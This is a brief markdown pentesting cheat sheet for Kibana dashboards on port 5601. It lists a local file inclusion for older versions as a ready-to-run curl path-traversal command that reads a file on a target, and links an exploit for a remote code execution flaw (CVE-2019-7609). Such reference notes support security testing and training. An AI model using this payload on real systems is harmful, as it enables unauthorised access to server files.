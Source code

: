 ```yaml
---
title: Kibana Pentesting
desc: A proprietary data visualization dashboard software for Elasticsearch. Default port is 5601.
tags: [5601, Kibana, Web]
alts: []
render_with_liquid: false
---
```


## Vulnerabilities

1. **Local File Inclusion (LFI)**

    **Version < 6.4.3 & 5.6.13**

    ```sh
    curl http://<target-ip>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
    ```

2. **Remote Code Execution (RCE)**

    **Version < 6.6.0**

    Reference: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609){:target="_blank"}
